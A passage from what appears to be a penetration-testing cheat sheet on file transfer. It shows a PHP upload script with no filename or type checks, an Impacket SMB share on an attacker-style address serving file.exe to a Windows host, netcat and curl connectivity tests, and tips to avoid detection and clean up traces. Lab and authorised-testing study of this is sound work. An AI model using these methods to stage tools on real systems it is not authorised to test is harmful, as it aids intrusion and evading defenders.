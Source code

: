 ### PHP Upload Server
```php
<?php
if(isset($_FILES['file'])){
    move_uploaded_file($_FILES['file']['tmp_name'], $_FILES['file']['name']);
    echo "File uploaded successfully!";
}
?>
<form method="POST" enctype="multipart/form-data">
    <input type="file" name="file" />
    <input type="submit" value="Upload" />
</form>
```

### SMB Server (Impacket)
```bash
# Start SMB server
impacket-smbserver share $(pwd) -smb2support

# With authentication
impacket-smbserver share $(pwd) -smb2support -username user -password pass

# Windows - Access share
copy \\10.10.14.1\share\file.exe C:\Temp\file.exe
```

---

## Best Practices

1. **Use Encrypted Channels**: Prefer SCP, SFTP, or HTTPS over unencrypted methods
2. **Verify File Integrity**: Use checksums (MD5, SHA256) to verify transfers
   ```bash
   # Generate checksum
   md5sum file.txt
   sha256sum file.txt
   
   # Windows
   certutil -hashfile file.txt MD5
   certutil -hashfile file.txt SHA256
   ```
3. **Clean Up**: Remove transferred files after use
4. **Obfuscation**: Consider encoding or encrypting sensitive files
5. **Avoid Detection**: Use legitimate system tools when possible
6. **Test Transfers**: Verify functionality after transfer

---

## Troubleshooting

### Check Connectivity
```bash
# Test HTTP server
curl -I http://10.10.14.1:8000

# Test port connectivity
nc -zv 10.10.14.1 8000

# Windows
Test-NetConnection -ComputerName 10.10.14.1 -Port 8000
```
